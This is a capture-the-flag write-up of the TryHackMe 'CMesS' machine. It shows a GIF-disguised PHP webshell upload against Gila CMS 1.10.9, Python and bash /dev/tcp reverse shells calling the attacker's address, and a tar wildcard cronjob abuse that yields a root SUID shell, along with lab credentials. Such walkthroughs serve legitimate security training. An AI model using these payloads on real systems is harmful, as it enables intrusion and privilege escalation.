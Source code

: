 ```yaml
---
tags: gilacms, cron, wildcard cronjob
---
```

# THM: CMesS

***Overview**: CMesS is a medium rated tryhackme machine. This machine exploits a Remote Command Execution (RCE) vulnerability in Gila CMS 1.10.9 which manipulates the media upload functionality to gain foothold into the machine and then it also exploits a wildcard cronjob running as root to escalate privilege to root. Please enjoy!!*

## Scanning and Enumeration
- we first start our reconnaissance by my running my nmap scan on the machine after adding the vhost to the /etc/hosts file
```shell
┌──(kali㉿kali)-[~]
└─$ echo "10.10.105.80 cmess.thm" | sudo tee -a /etc/hosts
[sudo] password for kali: 
10.10.105.80 cmess.thm
                                                                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ nmap -sV -sC -A 10.10.105.80                          
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-21 05:04 EDT
Nmap scan report for cmess.thm (10.10.105.80)
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9b652d3939a3850b4233bfd210c051f (RSA)
|   256 21c36e318b85228a6d72868fae64662b (ECDSA)
|_  256 5bb9757805d7ec43309617ffc6a86ced (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-generator: Gila CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.62 seconds
```
`ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://cmess.thm/FUZZ -e .php,.txt`

![](assets/CMesS_assets/Pasted%20image%2020230521150144.png)
- from our nmap scan, we can see that our robots.txt file is available to view
![](assets/CMesS_assets/Pasted%20image%2020230521100856.png)
- but going to all the directories specified in the robots.txt file, we can see that it keeps redirecting us to a forbidden directory
for all of the directories above
![](assets/CMesS_assets/Pasted%20image%2020230521101428.png)
![](assets/CMesS_assets/Pasted%20image%2020230521141829.png)
- we then scan for subdomains using ffuf, and we discover the subdomain dev
`ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.cmess.thm" -u http://cmess.thm -fw 522`
![](assets/CMesS_assets/Pasted%20image%2020230521112356.png)
- we can then add this subdomain to the /etc/hosts file and then verify its existence by curling to that subdomain
```shell
┌──(kali㉿kali)-[~]
└─$ echo "10.10.168.183 dev.cmess.thm" | sudo tee -a /etc/hosts
[sudo] password for kali: 
10.10.168.183 dev.cmess.thm
                                                                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ curl -I dev.cmess.thm                                      
HTTP/1.1 200 OK
Date: Sun, 21 May 2023 10:22:53 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Thu, 06 Feb 2020 22:22:59 GMT
ETag: "3a6-59defb725b6c0"
Accept-Ranges: bytes
Content-Length: 934
Vary: Accept-Encoding
Content-Type: text/html
```
- going to the subdomain, we can see a conversation between a user andre and the support, from this conversation, we areable to obtain credentials such as email and password
![](assets/CMesS_assets/Pasted%20image%2020230521112536.png)
- we attempt to login at /admin using andre@cmess.thm as email and KPFTN_f2yxe% as password and we gain access

![](assets/CMesS_assets/Pasted%20image%2020230521113013.png)
## Exploitation

- we can see the version of the Gila CMS running
![](assets/CMesS_assets/Pasted%20image%2020230521113200.png)
- so now we can search for exploits for this CMS and we found one at [https://rastating.github.io/gila-cms-upload-filter-bypass-and-rce/](https://rastating.github.io/gila-cms-upload-filter-bypass-and-rce/)
- Following the steps in the exploit, we create a file test.gif with the contents and upload it in the media 
```
GIF89a; <?=`$_GET[1]`?>
```
![](assets/CMesS_assets/Pasted%20image%2020230521115407.png)
```ad-note
I attempted uploading a php reverse shell file but the file format wasn't acceptable
```
- we can view the image in the media to know the directory our .gif file will be located and we can see below it is stored at `/tmp/media_thumb`
![](assets/CMesS_assets/Pasted%20image%2020230521115902.png)
- we then move the saved test.gif file to the file `tmp/media_thumb/shell.php`
![](assets/CMesS_assets/Pasted%20image%2020230521114718.png)
- we then create another file test2.gif with the content `# GIF89a;` and then move the file to the file  `/tmp/.htaccess`
![](assets/CMesS_assets/Pasted%20image%2020230521115152.png)
- then we try to view /etc/passwd file to test http://cmess.thm/tmp/media_thumb/shell.php?1=cat+/etc/passwd and worked, we have Remote Code Execution (RCE)!!!!
![](assets/CMesS_assets/Pasted%20image%2020230521115711.png)
- we can run the `whoami` command
![](assets/CMesS_assets/Pasted%20image%2020230521120101.png)

## Foothold
- we can also see if python3 is running so we can attempt a reverse shell, and it is
![](assets/CMesS_assets/Pasted%20image%2020230521120213.png)
- now we run the following command with our netcat listening
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.80.123",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```
- and we get a shell
![](assets/CMesS_assets/Pasted%20image%2020230521121926.png)

## Further Enumeration and Privilege Escalation

- we run the `history`, `sudo -l` and other commands to see if we can find escalation vectors, then when we view our crontabs, we notice something interesting, a cronjob running with a wild card but to be able to exploit this, we have to gain foothold as andre, so we keep looking
![](assets/CMesS_assets/Pasted%20image%2020230521122712.png)
- we can view the open ports running on the machine to check for ports running locally and we can see that we have port 3306 running, which gives us a hint that  mysql is running
![](assets/CMesS_assets/Pasted%20image%2020230521131248.png)
- looking through files we can see the config.php file and we get some credentials which seem like it belongs to a mysql account running locally, the username is root, the password is r0otus3rpassw0rd, and the database name is gila

![](assets/CMesS_assets/Pasted%20image%2020230521131133.png)
- so we sign in to the mysql database and look through for maybe credentials
![](assets/CMesS_assets/Pasted%20image%2020230521131441.png)
- we find a hash for andre but after analysis, we discover it is a blowfish hash and might belongs to the password we found in the dev subdomain which we found earlier, so we move on
![](assets/CMesS_assets/Pasted%20image%2020230521141234.png)
- we run our linpeas.sh script and then we notice a hidden file .password.bak in the /opt directory
![](assets/CMesS_assets/Pasted%20image%2020230521135627.png)
- viewing it we discover andre's backup password as UQfsdCB7aAP6, JACKPOT!!
![](assets/CMesS_assets/Pasted%20image%2020230521135718.png)
- so since we know ssh is open on the system, we try logging in with the credentials found and BOOM, we get access
![](assets/CMesS_assets/Pasted%20image%2020230521135903.png)
- so now we can finally exploit the cronjob using a wildcard, now our cronjob runs after every 2 minutes
- what the cronjob command does is to change directory to the backup directory and then archive all its files in a gzip archive in the tmp directory
![](assets/CMesS_assets/Pasted%20image%2020230521135929.png)
- we can view the contents of the file in the backup directory know as note
![](assets/CMesS_assets/Pasted%20image%2020230521162642.png)
- so now that we understand what is happening,  we will run the following commands consecutively
```shell
andre@cmess:~$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/andre/backup/runme.sh
andre@cmess:~$ chmod +x runme.sh 
andre@cmess:~$ touch /home/andre/backup--checkpoint=1
andre@cmess:~$ touch /home/andre/backup--checkpoint-action=exec=sh\ runme.sh
```
- the first command just saves the command in a file runme.sh, what the command does is to copy the bash file to tmp folder and then add suid permission to that bash file, so we can just run `/tmp/bash -p` and get a shell
- then we run the rest of the commands which exploit the `tar` command
- after executing the commands, we wait a while for the cronjob to run and when we view the /tmp folder, we can see the bash file
![](assets/CMesS_assets/Pasted%20image%2020230521152449.png)
- so now we can run the `/tmp/bash -p` command and get a shell as root
![](assets/CMesS_assets/Pasted%20image%2020230521152537.png)
- we finally get our root.txt file
![](assets/CMesS_assets/Pasted%20image%2020230521153520.png)

OR
- Another way we can do this by getting a reverse shell as root on a listening port, so we can run the following commands in the backup directory, because it is being backed up using the tar command
```shell
andre@cmess:~/backup$ echo "bash -i >& /dev/tcp/10.8.80.123/4040 0>&1" > test.sh
andre@cmess:~/backup$ cat runme.sh 
bash -i >& /dev/tcp/10.8.80.123/4040 0>&1
andre@cmess:~/backup$ chmod +x test.sh
andre@cmess:~/backup$ echo "" > "--checkpoint-action=exec=bash test.sh"
andre@cmess:~/backup$ echo "" > --checkpoint=1
```
- and on our listening port we can see we have access as root
![](assets/CMesS_assets/Pasted%20image%2020230521155102.png)
- and we get our root file
![](assets/CMesS_assets/Pasted%20image%2020230521155147.png)


Thank you reading, hope you enjoyed it
See you next time!!